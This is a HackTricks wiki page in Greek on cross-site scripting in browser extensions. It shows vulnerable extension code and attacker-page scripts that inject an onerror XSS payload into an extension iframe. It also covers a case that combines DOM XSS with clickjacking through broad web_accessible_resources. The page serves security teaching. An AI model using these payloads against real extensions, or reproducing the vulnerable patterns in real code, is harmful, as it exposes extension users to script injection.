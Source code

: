 # BrowExt - XSS Example

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Cross-Site Scripting (XSS) μέσω Iframe

Σε αυτή τη ρύθμιση, ένα **content script** υλοποιείται για να δημιουργήσει ένα Iframe, ενσωματώνοντας μια διεύθυνση URL με παραμέτρους ερωτήματος ως πηγή του Iframe:
```javascript
chrome.storage.local.get("message", result => {
let constructedURL = chrome.runtime.getURL("message.html") +
"?content=" + encodeURIComponent(result.message) +
"&redirect=https://example.net/details";
frame.src = constructedURL;
});
```
Μια δημόσια προσβάσιμη σελίδα HTML, **`message.html`**, έχει σχεδιαστεί για να προσθέτει δυναμικά περιεχόμενο στο σώμα του εγγράφου με βάση τις παραμέτρους στη διεύθυνση URL:
```javascript
$(document).ready(() => {
let urlParams = new URLSearchParams(window.location.search);
let userContent = urlParams.get("content");
$(document.body).html(`${userContent} <button id='detailBtn'>Details</button>`);
$('#detailBtn').on('click', () => {
let destinationURL = urlParams.get("redirect");
chrome.tabs.create({ url: destinationURL });
});
});
```
Ένα κακόβουλο σενάριο εκτελείται στη σελίδα ενός αντιπάλου, τροποποιώντας την παράμετρο `content` της πηγής του Iframe για να εισάγει ένα **XSS payload**. Αυτό επιτυγχάνεται ενημερώνοντας την πηγή του Iframe για να περιλαμβάνει ένα επιβλαβές σενάριο:
```javascript
setTimeout(() => {
let targetFrame = document.querySelector("iframe").src;
let baseURL = targetFrame.split('?')[0];
let xssPayload = "<img src='invalid' onerror='alert(\"XSS\")'>";
let maliciousURL = `${baseURL}?content=${encodeURIComponent(xssPayload)}`;

document.querySelector("iframe").src = maliciousURL;
}, 1000);
```
Μια υπερβολικά επιτρεπτική Πολιτική Ασφαλείας Περιεχομένου όπως:
```json
"content_security_policy": "script-src 'self' 'unsafe-eval'; object-src 'self';"
```
επιτρέπει την εκτέλεση JavaScript, καθιστώντας το σύστημα ευάλωτο σε επιθέσεις XSS.

Μια εναλλακτική προσέγγιση για να προκληθεί το XSS περιλαμβάνει τη δημιουργία ενός στοιχείου Iframe και την ρύθμιση της πηγής του ώστε να περιλαμβάνει το επιβλαβές σενάριο ως την παράμετρο `content`:
```javascript
let newFrame = document.createElement("iframe");
newFrame.src = "chrome-extension://abcdefghijklmnopabcdefghijklmnop/message.html?content=" +
encodeURIComponent("<img src='x' onerror='alert(\"XSS\")'>");
document.body.append(newFrame);
```
## DOM-based XSS + ClickJacking

Αυτό το παράδειγμα προήλθε από την [αρχική ανάρτηση](https://thehackerblog.com/steam-fire-and-paste-a-story-of-uxss-via-dom-xss-clickjacking-in-steam-inventory-helper/).

Το κύριο πρόβλημα προέρχεται από μια ευπάθεια Cross-site Scripting (XSS) που βασίζεται στο DOM, η οποία βρίσκεται στο **`/html/bookmarks.html`**. Ο προβληματικός JavaScript, μέρος του **`bookmarks.js`**, αναλύεται παρακάτω:
```javascript
$('#btAdd').on('click', function() {
var bookmarkName = $('#txtName').val();
if ($('.custom-button .label').filter(function() {
return $(this).text() === bookmarkName;
}).length) return false;

var bookmarkItem = $('<div class="custom-button">');
bookmarkItem.html('<span class="label">' + bookmarkName + '</span>');
bookmarkItem.append('<button class="remove-btn" title="delete">x</button>');
bookmarkItem.attr('data-title', bookmarkName);
bookmarkItem.data('timestamp', (new Date().getTime()));
$('section.bookmark-container .existing-items').append(bookmarkItem);
persistData();
});
```
Αυτό το απόσπασμα ανακτά την **τιμή** από το **`txtName`** πεδίο εισόδου και χρησιμοποιεί **συγκέντρωση συμβολοσειρών για να δημιουργήσει HTML**, το οποίο στη συνέχεια προσαρτάται στο DOM χρησιμοποιώντας τη μέθοδο `.append()` της jQuery.

Συνήθως, η Πολιτική Ασφάλειας Περιεχομένου (CSP) της επέκτασης Chrome θα εμπόδιζε τέτοιες ευπάθειες. Ωστόσο, λόγω της **χαλάρωσης CSP με ‘unsafe-eval’** και της χρήσης μεθόδων χειρισμού DOM της jQuery (οι οποίες χρησιμοποιούν [`globalEval()`](https://api.jquery.com/jquery.globaleval/) για να περάσουν σενάρια στο [`eval()`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/eval) κατά την εισαγωγή στο DOM), η εκμετάλλευση είναι ακόμα δυνατή.

Ενώ αυτή η ευπάθεια είναι σημαντική, η εκμετάλλευσή της συνήθως εξαρτάται από την αλληλεπίδραση του χρήστη: επισκεπτόμενος τη σελίδα, εισάγοντας ένα XSS payload και ενεργοποιώντας το κουμπί “Προσθήκη”.

Για να ενισχυθεί αυτή η ευπάθεια, εκμεταλλεύεται μια δευτερεύουσα ευπάθεια **clickjacking**. Το μανιφέστο της επέκτασης Chrome παρουσιάζει μια εκτενή πολιτική `web_accessible_resources`:
```json
"web_accessible_resources": [
"html/bookmarks.html",
"dist/*",
"assets/*",
"font/*",
[...]
],
```
Σημαντικά, η σελίδα **`/html/bookmarks.html`** είναι επιρρεπής σε framing, επομένως ευάλωτη σε **clickjacking**. Αυτή η ευπάθεια εκμεταλλεύεται για να πλαισιώσει τη σελίδα μέσα σε έναν ιστότοπο του επιτιθέμενου, επικαλύπτοντάς την με στοιχεία DOM για να ανασχεδιάσει παραπλανητικά τη διεπαφή. Αυτή η χειραγώγηση οδηγεί τα θύματα να αλληλεπιδρούν με την υποκείμενη επέκταση ακούσια.

## Αναφορές

* [https://palant.info/2022/08/31/when-extension-pages-are-web-accessible/](https://palant.info/2022/08/31/when-extension-pages-are-web-accessible/)
* [https://thehackerblog.com/steam-fire-and-paste-a-story-of-uxss-via-dom-xss-clickjacking-in-steam-inventory-helper/](https://thehackerblog.com/steam-fire-and-paste-a-story-of-uxss-via-dom-xss-clickjacking-in-steam-inventory-helper/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
